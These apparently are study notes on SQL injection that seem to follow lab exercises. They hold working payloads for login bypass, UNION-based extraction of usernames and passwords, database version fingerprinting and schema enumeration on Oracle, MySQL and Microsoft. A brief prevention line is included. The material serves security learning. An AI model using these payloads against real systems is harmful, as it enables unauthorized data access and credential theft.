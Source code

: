 ## **SQL Injection** 
### Retrieving hidden data, where can modify an SQL query to return additional results 
[https://insecure-website.com/products?category=Gifts]
(https://insecure-website.com/products?category=Gifts "https://insecure-website.com/products?category=Gifts") 
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1` 
[https://insecure-website.com/products?category=Gifts%27--]
(https://insecure-website.com/products?category=Gifts%27-- "https://insecure-website.com/products?category=Gifts%27--") 
`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1` 
[https://insecure-website.com/products?category=Gifts%27+OR+1=1--]
(https://insecure-website.com/products?category=Gifts%27+OR+1=1-- "https://insecure-website.com/products?category=Gifts%27+OR+1=1--") 
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1` 
### Subverting application logic, where you can change a query to interfere with the application's logic
 If a users credential is wiener:bluecheese 
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'` `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''` 
### UNION attacks, where you can retrieve data from different database tables `SELECT name, description FROM products WHERE category = 'Gifts'` `' UNION SELECT username, password FROM users--` 
This will cause the application to return all usernames and passwords along with the names and descriptions of products. Examining the database, where you can extract information about the version and structure of the database 
`SELECT * FROM information_schema.tables` -- what DB table exist 
`SELECT * FROM v$version` -- Oracle version 
### Blind SQL injection, where the results of a query you control are not returned in the applications' responses 
#### How to detect SQLi Vuln? 
1. Submitting ' 
2. Submitting SQL-Syntax 
3. Submitting Boolean OR 1=1 OR 1=2 
4. Submitting OAST payload
#### Prevent SQLi 
Mostly by using parameterized queries (prepared statements) instead of string concatenation within query (edited)
###### SQL injection UNION attack, retrieving multiple values in a single column `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--` 
###### SQL injection attack, querying the database type and version on Oracle `'+UNION+SELECT+'abc','def'+FROM+dual--` `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--` 
###### SQL injection attack, querying the database type and version on MySQL and Microsoft `'+UNION+SELECT+'abc','def'#` `'+UNION+SELECT+@@version,+NULL#` 
###### SQL injection attack, listing the database contents on non-Oracle databases `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--` `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--` 
###### SQL injection attack, listing the database contents on Oracle `'+UNION+SELECT+table_name,NULL+FROM+all_tables--` `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--` `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--` . 
###### Use the following payload to retrieve the list of tables in the database: `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` 
###### To get column available in the specified table named 'users_cwrebz' `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_cwrebz'--` 
###### To list all available list of tables in a database `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`